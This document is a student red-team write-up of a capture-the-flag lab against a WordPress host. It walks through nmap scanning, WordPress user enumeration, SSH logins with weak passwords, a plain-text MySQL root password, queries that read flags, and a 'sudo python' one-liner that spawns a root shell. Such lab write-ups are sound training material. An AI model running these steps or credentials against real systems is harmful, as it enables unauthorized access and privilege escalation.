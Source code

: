 # Final-Project
![](Images/Final%20Project%202.0.drawio.png)

# Red Team: Summary of Operations
# Table of Contents
 - Exposed Services
 - Critical Vulnerabilities
 - Exploitation
# Exposed Services
- Fill out the information below:
  - Nmap scan results for each machine reveal the below services and OS details: nmap -sV 192.168.1.110  command to Scan Target 1
  
 ![](Images/Nmap%20Scan.png)
 
- This scan identifies the services below as potential points of entry:
### Target 1:
  - SSH
  - HTTP
  - rpcbind
  - netbios-ssn
  
  ![](Images/Nmap%20Port%20%26%20Services.png)



- The following vulnerabilities were identified on each target:
### Target 1:


| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |

![](Images/WPScan.png)


# Exploitation

- Fill out the details below. Include screenshots where possible:
- The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
### Target 1:

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/
  - grep -RE flag



                                      flag1: {b9bbcb33e11b80be759c4e844862482d}
 
 
![](Images/Flag%201%20%26%202.png) 

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/html/wordpress
  - mysql -u root -p
  - R@v3enSecurity
  - SELECT * FROM wp_post
 
                                      flag2: {fc3fd58dcdad9ab23faca6e9a36e581c}


![](Images/Flag%201%20%26%202.png)

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - mysql -u root -p
  - R@v3enSecurity
  - use wordpress;
  - SELECT * FROM wp_posts;

                                          

                                      flag3: {afc01ab56b50591e7dccf93122770cd2} 


 ![](Images/Flag%203.png)
 
 - Exploit Use:
   - Privilege escalation
   - ssh steven@192.168.1.110
   - sudo python -c ‘import os;os.system(“/bin/sh”)’ 
   - cd ../..
   - cat flag4                  
 

                                       flag4: {715dea6c055b9fe3337544932f2941ce}
 
 
![](Images/Flag%204.png)
                                      
                   
